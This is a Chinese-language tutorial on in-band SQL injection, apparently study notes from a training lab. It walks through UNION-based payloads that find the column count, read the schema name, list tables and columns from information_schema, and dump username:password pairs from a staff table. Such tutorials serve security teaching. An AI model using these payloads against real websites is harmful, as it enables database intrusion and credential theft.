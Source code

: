 ## In-Band SQLI

### 带回显的SQLI

这种类型的SQLI可以在url中进行，像一些blog，其页面中会有作者、作者id、文章内容等页面内容，这就会根据url的请求而带有回显，从而可以看得到查询结果以及判断sql语法是否有误

```
像url中的'article？id=1'实际上相当于’select * from article where id =1 limit 1;'

这时候id=1会返回正确的结果，但我们需要一个不正确的结果，并通过改写sql语句，使其返回正确的结果
便可以在url中修改为：

'article?id=0 union select 1 ;--'
这样就相当于
'select *from article where id = 0 union select 1;--limit 1;'

在sql语法中--表示后面的内容为注释，不会执行
当然一般这会返回错误结果，但我们就是得根据错误的结果来判断表有多少列
得到错误结果后，接着加上个2

'article?id=0 union select 1,2 ;--'
相当于
'select * from article where id = 0 union select 1,2;-- limit 1'
```

可能会再一次得到错误结果，这说明表不止2列，就接着往下加数字，直到不报错为止
```
'article?id=0 union select 1,2,3 ;--'
相当于
'select * from article where id = 0 union select 1,2,3;-- limit 1'
```

假设表只有3列，那么这时就不会返回错误了,会显示正常的内容

这就表明当前页面调用了数据库中的三列内容

这时我们把第三列的地方换位database()

```
'article?id =0 union select 1,2,database();--'
等于
'select * from article where id =0 union select 1,2,database();-- limit 1'
```

这时就可以在页面中调用第三列内容的地方看到该schema的名字，例如'sqli_one'

接着把url改为：
```
’article?id =0 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema = 'sqli_one';--
```

方法 group_concat（） 从多个返回的行中获取指定的列（在我们的例子中为 table_name），并将其放入一个以逗号分隔的字符串中。

这样就可以得到该schema下所有table的名字，例如有‘article'和'users_staff'，那么’users_staff'就是我们想要的table

接着改为：
```
articl？id =0 union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users_staff';--
```

便可以得到users_staff下的所有column名字了，例如有‘username’、‘password’

接着改为:
```
article?id=0 union select 1,2,group_concat(username,':',password separator '<br>') from users_staff;--
```

我们使用 group_concat 方法将所有行返回到一个字符串中，并使其更易于阅读。我们还添加了 ，'：' 以将用户名和密码分开。我们没有用逗号分隔，而是选择了 HTML <br> 标签，该标签强制每个结果位于单独的行上，以便于阅读。

这样便得到了所有的用户名和其密码







